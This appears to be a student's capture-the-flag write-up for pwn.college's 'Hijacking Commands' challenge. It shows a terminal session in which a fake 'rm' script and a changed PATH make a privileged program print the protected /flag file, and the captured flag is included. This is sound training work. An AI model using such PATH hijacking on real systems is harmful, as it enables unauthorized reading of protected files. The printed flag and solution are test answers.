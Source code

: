 # Hijacking Commands
The challenge asks you to open the terminal in the pwn.college DOJO and invoke the nano editor and 'chmod' command to obtain a different result.    

## My Solve
**Flag:** 'pwn.college{4yNHR5u-p1XxkLv6jZvYu96N_a8.QX3cjM1wCO1gjNzEzW}'     

Here,we are asked to modify the rm command such that instead of deleting the '/flag' file,it reads it out.So we have to manipulate the path in such a way wherein rm behaves as cat.So we find the path of cat using the 'which' command and then nano rm and paste the exact path there and add the '/flag' as argument.Then we enable execute permission for users using the 'chmod' command.Then we shift the PATH=/home/hacker and then run the '/challenge/run.Since rm is the same as cat,it reads out the flag.    
'''     
Connected!                                                                              
hacker@path~hijacking-commands:~$ which cat        
/run/dojo/bin/cat      
hacker@path~hijacking-commands:~$ nano rm        
hacker@path~hijacking-commands:~$ chmod a+x rm      
hacker@path~hijacking-commands:~$ PATH=/home/hacker      
hacker@path~hijacking-commands:~$ /challenge/run        
Trying to remove /flag...      
pwn.college{4yNHR5u-p1XxkLv6jZvYu96N_a8.QX3cjM1wCO1gjNzEzW}        
hacker@path~hijacking-commands:~$       
'''    

## What I Learmt
I learnt the manipulation of commands using a text editor and PATH variable.     

## References
None.      


<img width="750" height="150" alt="image" src="https://github.com/user-attachments/assets/7ee8138e-89d5-467e-9476-aeb6bc069389" />
